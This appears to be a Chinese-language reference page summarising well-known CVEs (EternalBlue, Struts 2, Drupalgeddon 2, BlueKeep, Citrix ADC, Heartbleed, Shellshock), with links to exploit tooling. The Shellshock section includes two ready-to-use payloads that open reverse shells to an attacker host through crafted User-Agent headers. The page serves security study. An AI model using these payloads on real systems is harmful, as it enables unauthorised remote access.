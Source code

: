 # 常见漏洞与暴露

> CVE（常见漏洞与暴露）是分配给已知网络安全漏洞的唯一标识符。CVE有助于标准化漏洞的命名和跟踪，使组织、安全专业人员和软件供应商更容易共享信息并管理与这些漏洞相关的风险。每个CVE条目包括漏洞的简要描述、其潜在影响以及受影响的软件或系统的详细信息。

## 概述

* [工具](#工具)
* [过去15年的重要CVE](#过去15年的重要CVE)
    * [CVE-2017-0144 - 永恒之蓝](#cve-2017-0144---永恒之蓝)
    * [CVE-2017-5638 - Apache Struts 2](#cve-2017-5638---apache-struts-2)
    * [CVE-2018-7600 - Drupalgeddon 2](#cve-2018-7600---drupalgeddon-2)
    * [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
    * [CVE-2019-19781 - Citrix ADC Netscaler](#cve-2019-19781---citrix-adc-netscaler)
    * [CVE-2014-0160 - Heartbleed](#cve-2014-0160---heartbleed)
    * [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
* [参考文献](#参考文献)

## 工具

* [Trickest CVE仓库 - 自动收集的CVE和PoC](https://github.com/trickest/cve)
* [Nuclei模板 - 社区维护的应用程序安全漏洞查找模板列表](https://github.com/projectdiscovery/nuclei-templates)
* [Metasploit框架](https://github.com/rapid7/metasploit-framework)
* [CVE Details - 最终的安全漏洞数据源](https://www.cvedetails.com)

## 过去15年的重要CVE

### CVE-2017-0144 - 永恒之蓝

永恒之蓝利用了微软实现服务器消息块（SMB）协议中的一个漏洞。由于各种版本的Windows中SMB v1（SMBv1）服务器错误处理远程攻击者精心制作的数据包，导致此漏洞存在。这使得攻击者能够在目标计算机上执行任意代码。

受影响的系统：

* Windows Vista SP2
* Windows Server 2008 SP2 和 R2 SP1
* Windows 7 SP1
* Windows 8.1
* Windows Server 2012 Gold 和 R2
* Windows RT 8.1
* Windows 10 Gold、1511 和 1607
* Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

3月6日，Apache Struts 2出现了一个新的远程代码执行（RCE）漏洞。这个最近的漏洞，CVE-2017-5638，允许远程攻击者通过“Content-Type”头注入操作系统命令到Web应用程序中。

### CVE-2018-7600 - Drupalgeddon 2

Drupal 7.x和8.x多个子系统中存在远程代码执行漏洞。这可能允许攻击者在Drupal站点上利用多个攻击向量，可能导致站点被完全攻破。

### CVE-2019-0708 - BlueKeep

当未认证的攻击者使用RDP连接到目标系统并发送特制请求时，在远程桌面服务中存在远程代码执行漏洞——以前称为终端服务。此漏洞是在未经身份验证的情况下发生的，并且不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。攻击者随后可以安装程序、查看、更改或删除数据，或者创建具有完全用户权限的新帐户。

### CVE-2019-19781 - Citrix ADC Netscaler

Citrix Application Delivery Controller（ADC），以前称为NetScaler ADC，以及Citrix Gateway，以前称为NetScaler Gateway中存在远程代码执行漏洞。如果被利用，这可能允许未认证的攻击者执行任意代码。

受影响的产品：

* Citrix ADC 和 Citrix Gateway 版本13.0的所有受支持版本
* Citrix ADC 和 NetScaler Gateway 版本12.1的所有受支持版本
* Citrix ADC 和 NetScaler Gateway 版本12.0的所有受支持版本
* Citrix ADC 和 NetScaler Gateway 版本11.1的所有受支持版本
* Citrix NetScaler ADC 和 NetScaler Gateway 版本10.5的所有受支持版本

### CVE-2014-0160 - Heartbleed

Heartbleed Bug 是OpenSSL加密软件库的一个严重漏洞。这个弱点允许窃取在正常情况下由SSL/TLS加密保护的信息，SSL/TLS用于为互联网上的通信提供安全性和隐私。SSL/TLS为诸如Web、电子邮件、即时消息（IM）以及一些虚拟私人网络（VPNs）等应用提供了互联网上的通信安全和隐私。

### CVE-2014-6271 - Shellshock

Shellshock，也被称为Bashdoor，是一系列在广泛使用的Unix Bash shell中存在的安全漏洞，其中第一个于2014年9月24日披露。许多面向互联网的服务，如某些Web服务器部署，使用Bash来处理某些请求，这允许攻击者导致易受攻击版本的Bash执行任意命令。这可以使攻击者未经授权访问计算机系统。

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## 参考文献

* [Heartbleed - 官方网站](http://heartbleed.com)
* [Shellshock - 维基百科](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva对Apache Struts的分析](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - 维基百科](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - 微软](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)